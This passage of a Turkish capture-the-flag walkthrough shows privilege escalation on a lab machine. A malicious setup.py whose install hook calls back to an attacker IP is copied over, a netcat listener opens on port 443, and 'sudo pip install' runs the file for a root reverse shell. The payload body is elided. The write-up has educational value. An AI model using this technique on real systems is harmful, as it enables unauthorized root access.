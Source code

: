 Şimdi dosyamızı kopyalayabiliriz.

```text
root@kali:~# scp -P 3333 Downloads/fakePipSetup.py   mamadou@192.168.56.101:/home/mamadou/fakePipSetup.py
mamadou@192.168.56.101's password:
fakePipSetup.py                                                                                                                                                      100%  983   651.6KB/s   00:00
```

Şimdi sıra geldi dosyayı düzenleyip çalıştırmaya

## Ve İşte ROOOOOT

Dosyayı açıp kendi IP adresimizi gerekli yere girdikten ve dosyaya tüm yetkileri verdim. Bu işlemden sonra dosyayı tpg klasörünün altında fakepip dizininin altına kopyaladım.

```text
mamadou@Wakanda1:~$ chmod 777 setup.py
mamadou@Wakanda1:~$ cat setup.py
from setuptools import setup
from setuptools.command.install import install
import base64
import os


class CustomInstall(install):
  def run(self):
    install.run(self)
    RHOST = '192.168.56.102'  # change this
. . .
. . .
. . .
mamadou@Wakanda1:~$ cp setup.py
```

Ardından bu kullanıcı ile dosyayı çalıştırdım. Tabi bu işlemden önce kendi bilgisayarımdan 443 numaralı portu dinlemeye aldım.

```text
root@kali:~# nc -lvp 443
```

Şimdi programı çalıştıralım.

```text
cd /tmp/fakepip
ls -al
total 12
drwxr-xr-x 2 mamadou mamadou 4096 Nov 21 15:49 .
drwxrwxrwt 8 root    root    4096 Nov 21 15:49 ..
-rwxr-xr-x 1 mamadou mamadou  983 Nov 21 15:49 setup.py
sudo /usr/bin/pip install . --upgrade --force-reinstall
Unpacking /tmp/fakepip
  Running setup.py (path:/tmp/pip-r3YAWu-build/setup.py) egg_info for package from file:///tmp/fakepip

Installing collected packages: FakePip
  Found existing installation: FakePip 0.0.1
    Uninstalling FakePip:
      Successfully uninstalled FakePip
  Running setup.py install for FakePip
```
